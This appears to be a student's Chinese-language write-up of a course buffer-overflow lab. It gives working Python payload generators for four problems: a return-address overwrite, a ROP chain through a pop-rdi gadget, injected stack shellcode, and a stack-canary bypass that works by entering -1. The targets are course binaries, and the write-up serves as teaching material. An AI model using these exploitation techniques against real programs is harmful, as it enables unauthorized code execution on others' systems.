




# 栈溢出攻击实验

## 题目解决思路
出于对彩色分块汇编代码的好奇，我下载了ida；发现前3个problem思路框架相似，本质是让程序
执行我想要的代码，一步步进入圈套，最后输出目标字符串；第4个problem的关键是绕过金丝雀返回，所以需要调用函数

### Problem 1: 
- **分析**：此题较为简单，我们只需要构造payload实现两个功能：覆盖buffer和ebp，以及将返回地址覆盖为我需要跳转的地址。
第一步很好解决，查看func的内部定义可以知道，buffer和ebp都是8字节，所以我们可以用16字节的'A"进行覆盖；
第二步，我们跳转到哪里可以打印目标字符串呢？在汇编代码中查找'Yes!I like ICS!'，发现打印指令出现在func1中，所以我们只需要让程序跳转到func1的入口处，即为0x401216，将其补全为8字节并按照小端存取的方式追加在第一步构造的字符串后。所以我们就得到了十六字节的payload。
- **解决方案**：payload = b'AAAAAAAAAAAAAAAA\x16\x12@\x00\x00\x00\x00\x00'
```c
import struct
padding_len = 16 # buffer+ebp
# func1 函数的起始地址
target_addr = 0x401216
padding = b'A' * padding_len
address_bytes = struct.pack("<Q", target_addr)
payload = padding + address_bytes
print(payload)
with open("ans1.txt", "wb") as f:
    f.write(payload)
print(f"Payload已生成，跳转目标: {hex(target_addr)}")
```

- **结果**：


### Problem 2:
- **分析**：乍一看会觉得这题和problem1很像，于是我们顺着problem1的思路寻找'Yes!I like ICS!'，发现它出现在func2中，入口地址为0x401216，但是func2需要两个参数，函数会检查第一个参数的值是否为1016，那我们怎样把1016这个参数传给func2呢，这需要我们在跳转前已经把这个数放在寄存器rdi中，而此题的栈是不可执行的，所以我们需要在本题已有的汇编代码中找到对应的指令，使用指令：
```c
objdump -d problem2 | grep -A 1 "pop.*%rdi"
```
得到地址0x4012c7；
所以我们需要在覆盖buffer和ebp后，使程序依次跳转到0x4012c7和0x401216；
与problem1同理，在16字节'A'后按照小端存取，先追加所需move rdi指令的地址，再填入1016，最后填入func2的地址（注意全部扩充为8字节）。
- **解决方案**：payload = b'AAAAAAAAAAAAAAAA\xc7\x12@\x00\x00\x00\x00\x00\xf8\x03\x00\x00\x00\x00\x00\x00\x16\x12@\x00\x00\x00\x00\x00'
```c
import struct
padding_len = 16 # buffer+ebp

gadget_addr = 0x4012c7
right_addr = 0x3F8
# func1 函数的起始地址
target_addr = 0x401216

padding = b'A' * padding_len
payload = padding
payload+=struct.pack("<Q", gadget_addr)
payload+=struct.pack("<Q", right_addr)
payload+=struct.pack("<Q", target_addr)
print(payload)
with open("ans2.txt", "wb") as f:
    f.write(payload)

print(f"Payload已生成，跳转目标: {hex(target_addr)}")
```
- **结果**：

### Problem 3: 
- **分析**：思路依旧与前两题类似，区别在于这次我们找不到现成的move指令，好在这题的栈是可执行的，也就是说我们可以将想要完成的指令写成机器码，压入栈中，返回地址处则覆盖为跳转函数的地址，让函数在本该返回的时候跳转回栈的开头，执行目标指令。（具体见代码注释）
- **解决方案**：payload = b'jr_\xb8\x16\x12@\x00\xff\xd0\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90BBBBBBBB4\x13@\x00\x00\x00\x00\x00'
```c
import struct
# func1的地址
func1_addr = 0x401216

# jmp_xs的地址,跳回buffer开头
jmp_xs_addr = 0x401334
# 构造 Shellcode 调用 func1(114)
# 汇编逻辑：
#   push 0x72       (将 114 压栈)
#   pop rdi         (弹入 RDI 寄存器，这是 func1 的参数)
#   mov eax, 0x401216 (将 func1 地址放入 RAX)
#   call rax        (调用 func1)

shellcode = b''
shellcode += b'\x6a\x72'                    # push 0x72 (114)
shellcode += b'\x5f'                        # pop rdi
shellcode += b'\xb8\x16\x12\x40\x00'        # mov eax, 0x401216 (func1_addr)
shellcode += b'\xff\xd0'                    # call rax
print(f"Shellcode 长度: {len(shellcode)} 字节")

# shellcode在buffer最开头
# buffer32字节，填入 shellcode，剩下的用 NOP (0x90) 填充
padding_len = 32 - len(shellcode)
payload = shellcode + b'\x90' * padding_len

# 覆盖 RBP 
payload += b'B' * 8

# 覆盖返回地址指向 jmp_xs
# func返回时执行jmp_xs，跳回shellcode
payload += struct.pack('<Q', jmp_xs_addr)

print(f"Payload 总长度: {len(payload)} 字节")

with open("ans3.txt", "wb") as f:
    f.write(payload)

print(payload)
```
- **结果**：

### Problem 4: 
- **分析**：程序在rbp-8的位置放入了Canary值，如果攻击这像通过覆盖返回地址来实现目的，这个过程会覆盖中间的buffer，ebp等（当然也包括Canary），最终只要程序返回，必定会经过Canary，所以Canary的值一旦被修改就会被检查到，输出被攻击提示。那么我们想要实现攻击，必须要绕过Canary，那么怎样可以使得函数返回时不经过Canary呢？
我们观察发现，如果调用func，只要满足某些条件，程序会调用func1之后exit退出，所以我们的关键在于找到触发func1的条件；阅读汇编代码知，程序会要求我们给func输入一个参数a，并且备份为b，逻辑如下：
```c
  if ( a >= 0xFFFFFFFE )
  {
    for ( i = 0; i < 0xFFFFFFFE; ++i )
      --b;
    if ( b == 1 && a == -1 )
    {
      func1();
      exit(0);
    }
    puts("No! I will let you fail!");
  }
  else ···
```
所以func需要的输入是-1；

- **解决方案**：运行problem，在看到提示'if you give me enough yuanshi,I will let you pass!'后，输入-1（所谓的原石），然后程序输出目标字符串并自动退出，攻击完成。
- **结果**：

## 思考与总结
attack，顾名思义是要找到薄弱的地方，对于程序而言往往就是设计上的漏洞，我们目前遇到的类型都是通过输入超长字符串影响程序的运行，让程序一步一步走向我们需要的输出或者目的，手段无非是让程序跳来跳去，或者进行一些拦截，提前退出等。


## 参考资料

《深入理解计算机系统》
《助教们的巧妙设计与耐心讲解》
